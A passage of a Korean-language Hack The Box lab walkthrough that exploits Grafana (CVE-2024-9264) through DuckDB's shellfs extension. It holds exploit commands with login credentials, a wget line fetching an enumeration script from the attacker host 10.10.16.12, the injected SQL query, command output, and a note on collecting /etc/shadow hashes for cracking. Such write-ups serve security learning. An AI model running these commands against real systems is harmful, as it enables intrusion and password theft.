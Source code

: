 **명령어 분석:**

- `/etc/shadow`: Linux 시스템의 암호화된 패스워드 저장 파일
- **목적**: 패스워드 크래킹을 위한 해시 값 수집

### 3단계: 파일 전송 (Kali → 타겟)

```bash
# 타겟 서버에서 linenum.sh 다운로드
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "wget http://10.10.16.12:8000/linenum.sh" http://grafana.planning.htb
```

**명령어 분석:**

- `-c`: 명령어 실행 모드 (Command execution)
- `wget http://10.10.16.12:8000/linenum.sh`: 공격자 웹 서버에서 파일 다운로드
- **데이터 흐름**: `[Kali HTTP Server] → [Network] → [Target /root/]`

**내부 동작 과정:**

```sql
-- CVE 익스플로잇이 생성하는 실제 DuckDB 쿼리
SELECT 1;
install shellfs from community;
LOAD shellfs;
SELECT * FROM read_csv('wget http://10.10.16.12:8000/linenum.sh >/tmp/grafana_cmd_output 2>&1 |');
```

**실행 결과 분석:**

```
[+] Logged in as admin:0D5oT70Fq13EvB5r        # Grafana 로그인 성공
[+] Executing command: wget http://10.10.16.12:8000/linenum.sh  # 명령 실행
[+] Successfully ran duckdb query:              # DuckDB 쿼리 성공
--2025-06-03 14:19:42--  http://10.10.16.12:8000/linenum.sh    # wget 시작
Connecting to 10.10.16.12:8000... connected.   # 연결 성공
HTTP request sent, awaiting response... 200 OK  # HTTP 요청 성공
Length: 46631 (46K) [text/x-sh]                # 파일 크기: 46KB
Saving to: 'linenum.sh.3'                      # 저장 파일명 (중복으로 .3 붙음)
```

### 4단계: 누락된 중간 단계들 (완성을 위한 추가 과정)

#### 4-1. 파일 실행 권한 부여

```bash
# 다운로드한 스크립트에 실행 권한 부여
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "chmod +x linenum.sh.3" http://grafana.planning.htb
```

#### 4-2. LinEnum 스크립트 실행

```bash
# 시스템 정보 수집 스크립트 실행
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "./linenum.sh.3 > /tmp/enum_result.txt 2>&1" http://grafana.planning.htb
```
